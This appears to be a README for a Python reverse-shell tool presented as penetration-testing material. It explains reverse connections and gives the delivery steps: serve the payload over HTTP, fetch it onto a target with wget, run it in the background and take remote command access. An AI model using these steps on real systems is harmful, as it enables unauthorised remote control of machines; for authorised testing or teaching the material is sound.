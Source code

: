 # Reverse-Shell
Python reverse shell that can be used during a penetration test.

# Background
After exploitng a machine the attacker needs a way to get access to the machine even after the vulnerability used bythe attacker is fixed. These scenario the attacker uses a reverse connection. By default most enterprise firewalls will block outside connection from connecting into the network, hence the attacker will have to get the target to connect to them using a reverse connection. The reverse shell above is composed of socket and relies onthe TCP protocol which is connection oriented. Socket is an API that allow programs to communicate over a network.
The reverse shell consists of two parts:

    a)Ability to connect to the attacker machine.
    b)Allows an attacker to execute terminal commands on a victim machine.

Accessing victim machine can be archived by carrying out reccon to identify open ports and services running onthem, then looking for exploits for this services. When an attacker gets an exploit to leverage a vulnerability onthe target they send malicious packets to the processes hosted onthe port and possibly compromise the system.

# Using the Python Reverse Shell
Host the payload on a server using

    kali> python3 -m http.server 8080
![pythonhttp server](https://github.com/user-attachments/assets/8739c333-18d8-4247-b90f-b8eb093cb8f0)

Then use the wget command to download the payload onto the system from the server

    kali> wget 192.168.1.100:8080/reverseShell.py
![delivery](https://github.com/user-attachments/assets/dc80e3f0-4619-4098-96cf-d98c94342d67)

Start the server on the attacker machine using

    kali> python3 server.py

Then execute the reverse shell onthe hacker

    kali> python reserseShell.py 192.168.1.100 &                      Note: The & operator in bash is used to background a process.
![execute on target](https://github.com/user-attachments/assets/c9740c2c-33bd-4d0c-ba5e-ecddd269becc)

Now onthe Kali machine we get a connection onto our server allowing us to execute system commands onthe compromised system.
![c c](https://github.com/user-attachments/assets/ac832b50-3c46-44e2-adc8-e7a062bd69b7)


